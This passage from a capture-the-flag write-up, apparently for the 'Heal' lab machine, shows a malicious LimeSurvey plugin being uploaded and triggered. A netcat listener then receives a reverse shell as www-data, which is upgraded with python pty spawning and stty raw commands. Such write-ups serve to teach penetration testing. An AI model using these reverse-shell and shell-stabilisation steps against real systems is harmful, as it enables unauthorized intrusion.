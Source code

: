 ![](images/2024-12-14_21-42_80_limesurvey_successful_upload.png)

After we successfully uploaded our plugin we accessed the file using the `default path` for `plugins` and got a `callback`.

- [http://take-survey.heal.htb/upload/plugins/MassAction/php-rev.php](http://take-survey.heal.htb/upload/plugins/MassAction/php-rev.php)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.58] from (UNKNOWN) [10.129.112.98] 37758
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 20:44:35 up  1:43,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

And we also performed the typical `shell stabilization` steps of course.

```c
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@heal:/$ ^Z
zsh: suspended  nc -lnvp 6666
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 6666

www-data@heal:/$ 
www-data@heal:/$ export XTERM=xterm
www-data@heal:/$
```
